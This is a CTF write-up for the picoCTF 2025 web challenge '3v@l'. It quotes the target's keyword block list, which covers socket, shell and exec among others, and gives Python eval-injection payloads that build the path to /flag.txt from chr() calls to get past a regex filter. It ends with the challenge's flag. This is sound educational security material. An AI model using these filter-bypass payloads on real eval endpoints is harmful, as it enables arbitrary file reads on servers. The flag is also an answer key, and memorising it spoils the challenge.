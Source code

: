 # 3v@l
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
- [Reference](#reference)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2025, browser_webshell_solvable

Description:  
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

Hints:
1. Bypass regex
2. The flag file is /flag.txt
3. You might need encoding or dynamic construction to bypass restrictions.
```
## Overview
### A web executes what we type
![alt text](/CTF/picoCTF/Static/Images/3v@l/image.png)
## Solution
**Step1:** Recon  
* Based on the description, we can see that the web uses the `eval()` function to calculate what we enter.  
* After viewing the source i can see the web is giving us filtered characters and letters  
```
  Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```
**Step2:** Exploit  
* Web uses blacklists to block harmful characters, but that's not enough.  
* The simplest way is to concatenate strings to read flags, combined with using Unicode.  
`open(chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()`
## Flag
`picoCTF{D0nt_Use_Unsecure_f@nctions0c312090}`
## Reference
* Nếu sandbox chặn open trực tiếp hoặc chặn dấu (/)/+ kiểu đó, phương án thay thế an toàn là dùng __import__('builtins').open(...):
`__import__('builtins').open(''.join(map(chr,[47,102,108,97,103,46,116,120,116]))).read()
`
